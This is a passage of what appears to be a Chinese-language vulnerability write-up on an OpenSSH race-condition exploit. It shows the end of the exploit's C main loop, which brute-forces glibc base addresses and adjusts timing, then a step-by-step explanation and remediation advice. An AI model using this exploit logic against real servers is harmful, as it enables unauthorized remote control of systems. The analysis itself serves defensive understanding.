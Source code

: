 ```

          parsing_time += timing_adjustment;


          if (attempt_race_condition (sock, parsing_time, glibc_base))
            {
              printf ("Possible exploitation success on attempt %d with glibc base 0x%lx!\n",
                      attempt, glibc_base);
              success = 1;
            }
          else
            {
              timing_adjustment += 0.00001;
            }


          close (sock);
          usleep (100000); // 100ms delay between attempts
        }
    }


  return success;
}
```  
  
  
这个主函数是整个漏洞利用的核心部分。它执行以下步骤：  
  
  
初始化变量 success、parsing_time 和 timing_adjustment。  
  
循环遍历可能的glibc基地址。  
  
对每个基地址进行多次尝试，每次尝试时：  
  
设置与目标的连接。  
  
执行SSH握手。  
  
准备堆布局。  
  
测量最后一个数据包的解析时间。  
  
尝试利用竞态条件。  
  
如果成功，打印成功信息并退出循环；否则，调整定时参数并继续尝试。  
  
通过这种方法，攻击者能够逐步调整定时参数和尝试不同的glibc基地址，以期成功利用漏洞并获得目标系统的控制权。  
  
  
**五、漏洞修复建议**  
  
更新软件：及时更新OpenSSH到最新版本，包含所有安全补丁。  
  
监控日志：定期检查系统日志，发现异常登录或访问行为。  
  
最小权限：确保系统上的服务运行在最小权限用户下，降低潜在风险。  
  